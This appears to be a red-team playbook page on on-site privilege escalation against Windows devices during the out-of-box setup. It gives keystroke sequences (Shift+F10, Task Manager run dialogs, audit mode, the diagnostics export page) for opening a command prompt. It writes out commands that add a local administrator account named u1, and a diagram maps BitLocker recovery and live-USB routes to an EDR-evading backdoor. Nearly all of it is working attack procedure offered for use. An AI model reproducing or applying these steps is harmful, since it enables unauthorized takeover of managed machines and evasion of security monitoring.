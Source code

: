 # On-site privilege escalation

## Summary

<!---
[mermaid.live](https://mermaid.live/edit#pako:eNqNk02P2jAQhv-KZWkvXYLyBRt86IGFnmhZgdpDyR5MPIBLYiPHyUIR_32NDUq2H1JyyXjmmdczycwZZ5IBJrjUVMOE062ihVeHqUDmYVxBprkUaLZIhfM9PKAXaiDQoErnGnM9k9ke1LPR-sHpWMm3EhRpAsjoyBrUCe3hhGpOUQn5xjNQzTNwKgtYS6m_Uc1rILcT4gK9cbGYOmQmKZuXBM0Mgr4vxyamd2hHsz0XW6SlzMs7mNF8bPxMymsdN8vystJoOlkgZjqwzbmUuVhyDS-K19MyI-boleaMDsbBc9gCgtJo0lbCfDw1XKU9ufHW8ojgeADFQVwbcoj9qB-V0dmF_v68d29jrT69Is_7fLtpxUXJGajXBrgGLPFHv6vljm_045fA7wKvcy4YymRRUPPm4pcrqkvqs1b54-2yqGuCZxO8SYv3vMb-zzRZufaMdMtwI9OwbYV_Vuj6b9XmFLqx7T4-wDbd_E8XvlwHBPdwAaqgnJn1s1ORYr2DAlJMjMlgQ6tcpzgVF4PSSsvlSWSYaFVBD1cH1iwsJhual8Z7oOKnlMUdAsa1VF_dhttFtwgmZ3zEJAgH_XDoh4PEj55GURT38AmTwVN_6PtxMgiTOPJHYRxfevi3FfX7SRhGwWiYDOMgTIIgurwDMe9SxQ)
-->

```mermaid
stateDiagram-v2
    direction LR

    %% Parameters
    BitLockerCodeViaBrowser: BitLocker recovery key via self-service
    RebootNative: Reboot in winRE
    LoadOs: Live USB with hacking tools
    LocalBackdoor: Backdoor without EDR detection
    OnSitePrivEsc: On-site privilege escalation
    OOBE: Out-of-box experience

    state OnSitePrivEsc {
        direction LR
        
        [*] --> OOBE: [insider]
        OOBE --> LocalBackdoor: [Shift+F10]
        OOBE --> LocalBackdoor: [blind command injection]
        OOBE --> LocalBackdoor: [Ctrl+Shift+F3]
        OOBE --> LocalBackdoor: [Ctrl-Shift-D]
        --
        BitLockerCodeViaBrowser --> RebootNative
        BitLockerCodeViaBrowser --> LoadOs
        RebootNative --> LocalBackdoor: [inject]
        LoadOs --> LocalBackdoor: [inject]
        --
        LocalBackdoor --> [*]
    }


```

## Option 1 - [Collect logs](https://learn.microsoft.com/en-us/troubleshoot/mem/intune/device-enrollment/understand-troubleshoot-esp#collect-logs)
<kbd>SHIFT+F10</kbd>

## Option 2 - Blind command injection

### Bypass OOBE in Windows 10:
<kbd>CTRL+SHIFT+ESC</kbd> -> <kbd>ALT/WIN+TAB</kbd> -> <kbd>WIN+R</kbd> -> `cmd.exe` -> <kbd>SHIFT+ENTER</kbd>
```batch
net user u1 u1 /add
net localgroup Administrators u1 /add
```

### Bypass OOBE in Windows 11:
<kbd>CTRL+SHIFT+ESC</kbd> -> <kbd>ALT+N</kbd> -> `net user u1 u1 /add` -> <kbd>TAB</kbd> -> <kbd>SPACE</kbd> -> <kbd>ENTER</kbd>

<kbd>CTRL+SHIFT+ESC</kbd> -> <kbd>ALT+N</kbd> -> `net localgroup Administrators u1 /add` -> <kbd>TAB</kbd> -> <kbd>SPACE</kbd> -> <kbd>ENTER</kbd>

## Option 3 - [Enter Audit mode on an image that's configured to boot to OOBE](https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/boot-windows-to-audit-mode-or-oobe?view=windows-11#enter-audit-mode-on-an-image-thats-configured-to-boot-to-oobe)
<kbd>CTRL+SHIFT+F3</kbd>


## Option 4 - [Diagnostics page hash export](https://learn.microsoft.com/en-us/mem/autopilot/add-devices#diagnostics-page-hash-export)
1. <kbd>CTRL+SHIFT+D</kbd> -> `Export logs`
2. `Right click Local Disc (C:)` -> `Open in new window`
3. <kbd>ALT+TAB</kbd> (choose explorer)
4. <kbd>CTRL+L</kbd> -> `taskmgr` -> Enter
5. <kbd>ALT+TAB</kbd> (choose taskmgr)
6. <kbd>ALT+N</kbd> -> `cmd` -> <kbd>TAB</kbd> -> <kbd>SPACE</kbd> -> <kbd>ENTER</kbd>

